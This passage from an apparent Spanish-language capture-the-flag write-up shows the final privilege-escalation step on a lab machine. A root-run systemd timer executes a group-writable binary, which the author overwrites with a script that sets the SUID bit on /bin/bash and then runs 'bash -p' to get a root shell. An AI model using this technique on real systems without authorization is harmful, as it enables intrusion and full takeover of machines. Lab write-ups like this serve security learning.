 ```bash
○ activity.service - No description
     Loaded: loaded (/etc/systemd/system/activity.service; static)
     Active: inactive (dead) since Mon 2023-12-25 17:14:08 GMT; 1min 25s ago
   Duration: 2ms
TriggeredBy: ● activity.timer
    Process: 1287 ExecStart=/usr/local/share/report (code=exited, status=0/SUCCESS)
   Main PID: 1287 (code=exited, status=0/SUCCESS)
        CPU: 2ms
```

Verificamos los permisos y si podemos modificarlo `/usr/local/share/report`.
 
```bash
melville@principle2:/tmp$ ls -l /usr/local/share/report
-rwxrwx--- 1 root talos 16584 Nov 25 17:09 /usr/local/share/report
melville@principle2:/tmp$ id
uid=1003(melville) gid=1003(melville) groups=1003(melville),1000(talos)

```
Al estar en el grupo talos podemos escribir en el binario. Entonces cambiaremos el contenido para que root haga que la bash sea SUID.
```bash
melville@principle2:/tmp$ cat report 
#!/bin/bash
chmod u+s /bin/bash
melville@principle2:/tmp$ 
melville@principle2:/tmp$ cp report /usr/local/share/report 
```
```bash
melville@principle2:/tmp$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1265648 Apr 23  2023 /bin/bash
melville@principle2:/tmp$ bash -p
bash-5.2# whoami
root
bash-5.2# 
```
Y finalmente somos root. Gracias por leer!
